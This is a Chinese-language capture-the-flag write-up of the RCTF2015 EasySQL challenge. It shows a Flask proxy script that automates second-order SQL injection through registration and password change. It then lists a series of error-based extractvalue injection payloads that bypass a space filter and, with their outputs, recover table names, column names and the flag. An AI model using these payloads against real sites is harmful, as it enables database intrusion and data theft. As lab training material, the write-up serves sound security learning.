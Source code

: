 # [RCTF2015]EasySQL
![](<./img/Pasted image 20230102083703.png>)

---
首页长这样

![](<./img/Pasted image 20230102083746.png>)

注册账户的时候卡了一下，看源码差点没晕掉，哪有`email`过滤`@`的QAQ

![](<./img/Pasted image 20230102084658.png>)

使用用户名`admin"`注册，登录并在`changepwd.php`修改密码后，会出现错误提示

![](<./img/Pasted image 20230102094151.png>)

官方`wp`非常优雅地使用了代理转发来实现过程的自动化，赶紧学起来

```python
import requests
from flask import Flask, request, Response

app = Flask(__name__)
end_host = 'xxx.node4.buuoj.cn:81'
session = requests.Session()

@app.before_request
def before_request():
    data = request.data or request.form or None
    r = hack(data['username'])
    resp_headers = []
    for name, value in r.headers.items():
        if name.lower() in ('content-length', 'connection', 'content-encoding'):
            continue
        resp_headers.append((name, value))
    return Response(r, status=r.status_code, headers=resp_headers)

def hack(username):
    register(username)
    login(username)
    return changepwd()

def register(username):
    paramsPost = {'password': '123', 'email': '11', 'username': username}
    session.post('http://{}/register.php'.format(end_host), data=paramsPost)

def login(username):
    paramsPost = {'password': '123', 'username': username}
    session.post('http://{}/login.php'.format(end_host), data=paramsPost)

def changepwd():
    paramsPost = {'oldpass': '', 'newpass': ''}
    response = session.post('http://{}/changepwd.php'.format(end_host), data=paramsPost)
    return response

app.run(port=80, debug=True)
```

![](<./img/Pasted image 20230102095135.png>)

由于存在错误回显，尝试报错注入（空格、`right`、`limit`这些被`ban`了）
```sql
username=admin"^extractvalue(1,concat(0x5c,database()))#
```

```
XPATH syntax error: '\web_sqli'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='web_sqli'))))#
```

```
XPATH syntax error: '\article,flag,users'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag'))))#
```

```
XPATH syntax error: '\flag'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(flag))from(flag))))#
```

```
XPATH syntax error: '\RCTF{Good job! But flag not her'
```

不在`flag`表里

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))))#
```

```
XPATH syntax error: '\name,pwd,email,real_flag_1s_her'
```

使用`regexp`获取被截断的项
```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))))#
```

```
XPATH syntax error: '\real_flag_1s_here'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(real_flag_1s_here))from(users))))#
```

```
XPATH syntax error: '\xxx,xxx,xxx,xxx,xxx,xxx,xxx,xxx'
```

再次使用`regexp`匹配

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))))#
```

```
XPATH syntax error: '\flag{a8f839e3-d22e-4629-a4f9-3a'
```

使用`reverse`获取被截断的内容

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(reverse(real_flag_1s_here)))from(users)where(real_flag_1s_here)regexp('^f'))))#
```

```
XPATH syntax error: '\}f44af64b92a3-9f4a-9264-e22d-3e'
```

倒转后拼接即可

#Web #SQL注入 #代理 #报错注入 #bypass 